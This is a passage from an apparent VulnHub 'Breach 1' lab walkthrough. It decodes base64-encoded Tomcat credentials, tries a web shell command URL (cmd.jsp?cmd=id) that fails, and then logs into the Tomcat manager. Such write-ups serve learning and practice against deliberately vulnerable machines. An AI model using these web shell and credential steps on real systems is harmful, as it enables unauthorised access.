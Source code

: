 	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/loot/http]
	└─# echo -n dG9tY2F0OlR0XDVEOEYoIyEqdT1HKTRtN3pC | base64 -d
	tomcat:Tt\5D8F(#!*u=G)4m7zB
	```
	- tomcat:`Tt\5D8F(#!*u=G)4m7zB`
6. RCE 
	![](images/Pasted%20image%2020220120033933.png)

## Port 8443 (HTTPS)
1. Proceed to `https://192.168.110.140:8443/cmd/cmd.jsp?cmd=id`
	![](images/Pasted%20image%2020220120034159.png)
	- RCE did not work
2.  Proceed to `https://192.168.110.140:8443/_M@nag3Me/html` 
	![](images/Pasted%20image%2020220120033837.png)
3.  Login w/ tomcat:`Tt\5D8F(#!*u=G)4m7zB`